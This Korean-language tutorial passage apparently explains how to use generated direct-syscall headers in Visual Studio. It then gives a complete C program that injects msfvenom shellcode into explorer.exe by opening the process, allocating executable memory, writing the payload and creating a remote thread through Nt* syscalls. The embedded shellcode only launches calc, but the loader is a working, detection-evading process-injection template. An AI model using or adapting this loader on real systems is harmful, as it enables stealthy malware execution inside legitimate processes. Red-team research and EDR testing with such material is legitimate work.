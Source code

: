 그 후 아래와 같이 하면 된다.

1. 생성된 H/C/ASM 파일을 프로젝트 폴더에 복사
2. Visual Studio에서 go to Project → Build Customizations, enable MASM
3. Solution Explorer에서 .h와 .c/.asm 파일을 프로젝트에 추가한다.
4. ASM 파일 속성에 들어가서 Item Type을 Microsoft Macro Assembler로 설정한다.
5. 프로젝트 플랫폼을 x64로 설정한다. 32비트 프로젝트는 지원하지 않는다.

“**Nt***” 함수는 아래처럼 사용할 수 있다.

```bash
#include <Windows.h>
#include "lib/syscalls.h"

int main(int argc, char* argv[])
{
	// PID of explorer.exe
	DWORD pid = 11256;

	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	HANDLE hProcess;
	OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };
	CLIENT_ID clientId = { (HANDLE)pid, NULL };
	NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

	LPVOID baseAddress = NULL;
	NtAllocateVirtualMemory(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	NtWriteVirtualMemory(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);

	HANDLE hThread;
	NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);

	NtClose(hProcess);
	NtClose(hThread);

	return 0;
}
```
